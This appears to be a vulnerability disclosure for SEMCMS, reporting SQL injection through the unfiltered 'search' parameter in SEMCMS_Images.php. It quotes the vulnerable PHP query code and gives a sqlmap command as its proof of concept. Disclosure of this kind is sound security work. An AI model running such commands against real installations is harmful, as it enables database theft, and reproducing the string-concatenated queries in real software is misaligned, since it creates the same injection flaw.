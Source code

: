 # Summary
**SQL injection** in the `search` parameter of `SEMCMS_Images.php`.

# Details
The vulnerability trigger point is here:
![image](https://github.com/user-attachments/assets/52db2cf3-d951-46b3-bb0c-5d57f0a84be6)

Audit code, found here:
In `SEMCMS_Images.php` line 181
```php
 <?php
                //
                if ($CatID !== '' && $search !== '') {
                    $sql = $db_conn->query("select * from sc_images where images_category like '%,$CatID,%' and images_name like '%$search%'");
                } else if ($CatID !== '' && $search === '') {
                    $sql = $db_conn->query("select * from sc_images where images_category like '%,$CatID,%'");
                } else if ($CatID === '' && $search !== '') {
                    $sql = $db_conn->query("select * from sc_images where images_name like '%$search%'");
                } else {
                    $sql = $db_conn->query("select * from sc_images");
                }
```
The sql query statement did not filter the **`search`** parameters and directly concatenated them, resulting in a sql injection vulnerability.

# PoC
I use `sqlmap` for test.
![image](https://github.com/user-attachments/assets/bd626aba-fe24-4867-806c-a42b9df21f67)

And then I use
```bash
sqlmap -r post.txt --dbs --batch
```

The result:
![image](https://github.com/user-attachments/assets/0813ed9c-50eb-4229-9799-48ff10cdddc7)

